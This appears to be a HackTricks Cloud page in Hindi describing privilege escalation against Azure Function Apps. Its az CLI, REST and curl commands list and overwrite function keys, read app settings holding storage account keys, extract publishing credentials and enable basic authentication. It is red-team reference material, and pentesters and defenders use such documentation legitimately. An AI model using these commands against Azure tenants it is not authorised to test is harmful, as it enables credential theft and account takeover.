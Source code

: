 # Az - Functions App Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Function Apps

अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

यह अनुमति निर्दिष्ट कार्य के कार्य, मास्टर और सिस्टम कुंजियों को सूचीबद्ध करने की अनुमति देती है, लेकिन होस्ट कुंजी नहीं, के साथ: 

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

यह अनुमति निर्दिष्ट फ़ंक्शन की होस्ट कुंजी प्राप्त करने की अनुमति देती है: 

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

यह अनुमति निर्दिष्ट फ़ंक्शन के लिए फ़ंक्शन कुंजी बनाने/अपडेट करने की अनुमति देती है: 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

यह अनुमति निर्दिष्ट फ़ंक्शन के लिए एक मास्टर कुंजी बनाने/अपडेट करने की अनुमति देती है: 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

यह अनुमति निर्दिष्ट फ़ंक्शन के लिए एक सिस्टम फ़ंक्शन कुंजी बनाने/अपडेट करने की अनुमति देती है: 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

यह अनुमति एक फ़ंक्शन के पर्यावरणीय चर प्राप्त करने की अनुमति देती है। इन चर के अंदर, यह संभव है कि डिफ़ॉल्ट env चर **`AzureWebJobsStorage`** या **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`** मिलें, जो वास्तव में **पूर्ण अनुमतियों के साथ फ़ंक्शन के ब्लॉब स्टोरेज तक पहुँचने के लिए एक खाता कुंजी** रखता है।

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

यह अनुमति सभी प्रकाशन प्रोफाइल को सूचीबद्ध करने की अनुमति देती है, जो मूल रूप से **बुनियादी प्रमाणीकरण क्रेडेंशियल** को शामिल करती है:
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **Method SCM**

फिर, आप अपने फ़ंक्शन ऐप के SCM URL पर इन **बुनियादी प्रमाणीकरण क्रेडेंशियल्स** के साथ पहुँच सकते हैं और env वेरिएबल्स के मान प्राप्त कर सकते हैं:
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_ध्यान दें कि **SCM उपयोगकर्ता नाम** आमतौर पर वर्ण "$" के बाद ऐप का नाम होता है, इसलिए: `$<app-name>`._

और ये env वेरिएबल्स **AccountKey** को शामिल करते हैं जो फ़ंक्शन ऐप के डेटा को स्टोर करने वाले स्टोरेज अकाउंट का है, जिससे उस स्टोरेज अकाउंट को नियंत्रित किया जा सकता है।

यदि आप देखते हैं कि उन क्रेडेंशियल्स को **REDACTED** किया गया है, तो इसका कारण यह है कि आपको **SCM बेसिक ऑथेंटिकेशन विकल्प को सक्षम करने की आवश्यकता है** और इसके लिए आपको दूसरी अनुमति की आवश्यकता है (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
